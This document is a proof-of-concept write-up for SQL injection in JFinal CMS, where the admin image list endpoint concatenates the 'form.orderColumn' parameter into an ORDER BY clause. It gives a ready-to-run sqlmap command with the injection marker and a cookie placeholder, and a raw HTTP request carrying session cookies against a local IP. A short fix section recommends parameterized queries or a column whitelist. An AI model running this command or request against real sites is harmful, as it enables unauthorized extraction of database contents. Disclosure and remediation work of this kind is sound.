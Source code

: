 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/image/list  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=desc&form.orderColumn=name&form.orderAsc=desc&attr.album_id=-1&attr.name=&attr.status=-1&totalRecords=28&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730060224564](image-20220730060224564.png)

Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist



# TEST bucket

```
POST /jfinal_cms/admin/image/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 171
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/admin/image/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360,1659131581; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1659131581
Connection: close

form.orderColumn=*&form.orderAsc=desc&form.orderColumn=name&form.orderAsc=desc&attr.album_id=-1&attr.name=&attr.status=-1&totalRecords=28&pageNo=1&pageSize=20&length=10
```

